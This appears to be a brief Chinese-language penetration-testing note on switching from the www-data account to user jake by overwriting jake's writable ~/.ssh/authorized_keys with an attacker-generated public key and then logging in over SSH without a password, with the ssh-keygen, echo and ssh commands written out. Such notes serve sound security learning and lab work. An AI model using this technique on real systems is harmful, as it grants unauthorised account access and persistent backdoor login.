 ## 方法背景：假如以www-data的身份登入，想切换至jake用户，且发现jake的ssh公钥文件可以修改，则此法有效

一般用户的公钥文件是在/home目录下的
例如：
```
/home/jake/.ssh/authorized_keys
```

然后可以在本地机上生成当前本地用户的公钥：
```
ssh-keygen -t rsa
```

生成后把那一大段的文字复制，导入到目标机的用户公钥里，例如：
```
AAAAB3NzaC[REDACTED]+m7pk= kali@kali
echo "ssh-rsa AAAAB3NzaC[REDACTED]+m7pk= kali@kali" > /home/jake/.ssh/authorized_keys
```

最后在本地机上登录即可,无需输入jake的密码：
```
ssh jake@target_ip
```

